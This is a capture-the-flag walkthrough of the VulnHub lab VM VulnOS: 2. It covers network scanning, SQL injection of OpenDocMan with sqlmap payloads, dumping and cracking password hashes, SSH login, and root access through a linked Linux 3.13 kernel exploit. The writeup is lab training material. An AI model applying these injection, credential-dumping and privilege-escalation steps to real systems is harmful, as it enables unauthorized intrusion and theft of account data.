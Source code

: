 # Information

- Name: VulnOS: 2
- Date release: 17 May 2016
- Author: c4b3rw0lf
- Series: VulnOS
- Platform: VulnOS
- Link: https://www.vulnhub.com/entry/vulnos-2,147/
- Difficulty: Easy

# Write Up

## Enum
### Host Dicovery
Host Discovery is performed using [arpScan](https://github.com/aalmeidar/Tools) with mode fast. In this lab, the ip of machine is _10.0.2.9_.

```Console
# python arpScan.py -m 2 -r 10.0.2.0/24
[*] 52:54:00:12:35:00 10.0.2.1
[*] 52:54:00:12:35:00 10.0.2.2
[*] 08:00:27:27:dd:57 10.0.2.3
[*] 08:00:27:57:4f:aa 10.0.2.9
[*] 08:00:27:e1:f8:46 10.0.2.15
```

### Port Scanning
Port Scanning is realized with [portScan](https://github.com/aalmeidar/Tools) and _nmap_. The tool _portScan_ send a TCP SYN packet, then evaluate the answer, if the flags of TCP are SYN/ACK the port is open. So, there are 3 ports open:

```Console
# python portScanner.py -i 10.0.2.9
[*] Port 22 (ssh) open
[*] Port 80 (http) open
[*] Port 6667 (unknown) open
```
Let see the version that are running with _nmap_:

```Console
# nmap -sV -p22,80,6667 10.0.2.9
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-31 18:06 UTC
Nmap scan report for 10.0.2.9 (10.0.2.9)
Host is up (0.00032s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.6 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.7 ((Ubuntu))
6667/tcp open  irc     ngircd
MAC Address: 08:00:27:57:4F:AA (Oracle VirtualBox virtual NIC)
Service Info: Host: irc.example.net; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.68 seconds
```

##Web

Port 80 is running a web where there is a message from the author:
![Web Message](images/web_author.png)

Redirect to 10.0.2.9/jabc/
![Web_JABC](images/index_jabc.png)

In the _documentation_ (http://10.0.2.9/jabc/?q=node/7) there is a message with black font that say a new directory /jabcd0cs/ and creds guest:guest.
![Message Docs](images/message_doc.png)

In /jabcd0cs/ there is a login panel provided by OpenDocMan v1.2.7.
![OpenDocMan Login](images/login_odm.png)

This version is vulnerable to [SQLi](https://www.exploit-db.com/exploits/32075). The parameter add_value in _http://10.0.2.9/jabcd0cs/ajax_udf.php?q=1&add_value=odm_user_ is vulnerable, so we can try list the databse with sqlmap.
```Console
# sqlmap -u "http://10.0.2.9/jabcd0cs/ajax_udf.php?q=1&add_value=odm_user" --level 4
sqlmap identified the following injection point(s) with a total of 2610 HTTP(s) requests:
---
Parameter: add_value (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: q=1&add_value=odm_user WHERE 8676=8676 AND 4873=4873-- dVmo

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: q=1&add_value=odm_user WHERE 6317=6317 AND (SELECT 1756 FROM (SELECT(SLEEP(5)))lizz)-- SJpI
---
```

In addition, its possible dump the database. There is a table _odm_user_  that have the passwords hashed. 
```Console
# sqlmap -u "http://10.0.2.9/jabcd0cs/ajax_udf.php?q=1&add_value=odm_user" -D jabcd0cs --tables
Database: jabcd0cs
[15 tables]
+-------------------+
| odm_access_log    |
| odm_admin         |
| odm_category      |
| odm_data          |
| odm_department    |
| odm_dept_perms    |
| odm_dept_reviewer |
| odm_filetypes     |
| odm_log           |
| odm_odmsys        |
| odm_rights        |
| odm_settings      |
| odm_udf           |
| odm_user          |
| odm_user_perms    |
+-------------------+

# sqlmap -u "http://10.0.2.9/jabcd0cs/ajax_udf.php?q=1&add_value=odm_user" -D jabcd0cs -T odm_user --dump
Database: jabcd0cs
Table: odm_user
[3 entries]
+----+--------------------+--------------+----------------------------------+----------+-----------+------------+------------+---------------+
| id | Email              | phone        | password                         | username | last_name | department | first_name | pw_reset_code |
+----+--------------------+--------------+----------------------------------+----------+-----------+------------+------------+---------------+
| 1  | webmin@example.com | 5555551212   | b78aae356709f8c31118ea613980954b | webmin   | min       | 2          | web        | <blank>       |
| 2  | guest@example.com  | 555 5555555  | 084e0343a0486ff05530df6c705c8bb4 | guest    | guest     | 2          | guest      | NULL          |
| 3  | test@test.com      | 2121 2121211 | 71d941b4ed4d2cd3b9a20760125eacd1 | test2    | test      | 2          | test1      | NULL          |
+----+--------------------+--------------+----------------------------------+----------+-----------+------------+------------+---------------+

```

With rockyou.txt and hashcat don't crack, so i searched a web crack md5 app. The web [md5online.org](https://www.md5online.org/md5-decrypt.html) give me the password. 

With user _webmin_ and password _webmin1980_, login ssh is succesful.

```Console
ssh webmin@10.0.2.9
The authenticity of host '10.0.2.9 (10.0.2.9)' can't be established.
ED25519 key fingerprint is SHA256:7FO0Y5C+W/hj0ShAjGy33uQvuMRPrSNk82jGy/wxnfY.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.0.2.9' (ED25519) to the list of known hosts.
webmin@10.0.2.9's password:
Welcome to Ubuntu 14.04.4 LTS (GNU/Linux 3.13.0-24-generic i686)

 * Documentation:  https://help.ubuntu.com/

  System information as of Wed Aug 31 19:31:59 CEST 2022

  System load:  0.05              Processes:           89
  Usage of /:   6.3% of 29.91GB   Users logged in:     0
  Memory usage: 39%               IP address for eth0: 10.0.2.9
  Swap usage:   0%

  Graph this data and manage this system at:
    https://landscape.canonical.com/

New release '16.04.7 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

Last login: Wed Aug 31 19:31:59 2022 from 10.0.2.15
$ whoami
webmin
$ id
uid=1001(webmin) gid=1001(webmin) groups=1001(webmin)
$ uname -r
3.13.0-24-generic
$ python -c 'import pty; pty.spawn("/bin/bash")'
webmin@VulnOSv2:~$
webmin@VulnOSv2:~$ export TERM=xterm-256color
```

Linux 3.13 on Ubuntu is vulnerable to [privilege escalation](https://www.exploit-db.com/exploits/37292). 

```Console
webmin@VulnOSv2:/tmp$ gcc pe.c -o pe
webmin@VulnOSv2:/tmp$ ./pe
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root),1001(webmin)
# cd /root
# cat flag.txt
Hello and welcome.
You successfully compromised the company "JABC" and the server completely !!
Congratulations !!!
Hope you enjoyed it.

What do you think of A.I.?
```


